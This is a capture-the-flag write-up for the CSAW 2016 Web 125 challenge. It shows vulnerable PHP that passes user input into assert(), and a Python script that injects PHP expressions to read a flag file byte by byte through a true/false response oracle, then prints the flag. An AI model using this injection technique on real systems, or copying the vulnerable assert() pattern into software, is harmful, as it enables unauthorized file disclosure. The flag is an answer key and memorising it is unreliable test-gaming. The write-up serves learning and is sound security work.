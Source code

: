 ```yaml
---
layout: post
title:  "CSAW CTF 16 Web 125 writeup"
comments: true
image: ''
date:   2016-09-16 00:06:31
tags:
- Assert(), CSAW
description: 'Web 125 - Assert() Vulnerability'
categories:
- CSAW CTF, CTF, Assert Vulnerability
---
```


In this challenge, we were given a web page showing `Welcome to my website! I wrote it myself from scratch!.` Next was to find the vulnerability in the page.

`Challenge URL: http://web.chal.csaw.io:8000/`

Obviously the first thing was to look at the source code and found something commented out
`<br /><!--<li ><a href="?page=flag">My secrets</a></li>`

My next aim was to get that using LFI, but it failed as they were filtering off and produced a message Detected hacking attempt! I was sure that there was a `git` page as he had mentioned it in the about page which would get me the full source code. I was successfully able to find the source code which was

```
#A part of the source code
<?php

if (isset($_GET['page'])) {
$page = $_GET['page'];
} else {
$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
```

I was able to understand that it was using `assert()` which was vulnerable to LFI. I wrote a little script:

```
<br />
#Author Gokul Krishna
#teambi0s

import base64
import string
import requests

url = "http://web.chal.csaw.io:8000/"

def check(payload):
r = requests.get(url, params={'page':payload})
return "Detected" not in r.text
base = '\', "asdf") === false && %s && strpos(\'1'

def get_len(path):
for i in range(2048):
print "Length upto %d" % i
s = 'strlen(file_get_contents("%s")) == %d' % (path, i)
if check(base % s):
print "Found Length %d" % i
return i

def get_str(path):
length = get_len(path)
s = "<?php"
while len(s) < length:
for c in string.printable:
t_s = s + c
payload = 'substr(file_get_contents("%s"), 0, %d) == base64_decode("%s")' % (path, len(t_s), base64.b64encode(t_s))
if check(base % payload):
s += c
print c
print s.replace("\n", " ")
return s

print get_str("templates/flag.php");
```

Flag is: `flag{3vald_@ss3rt_1s_best_a$$ert}`
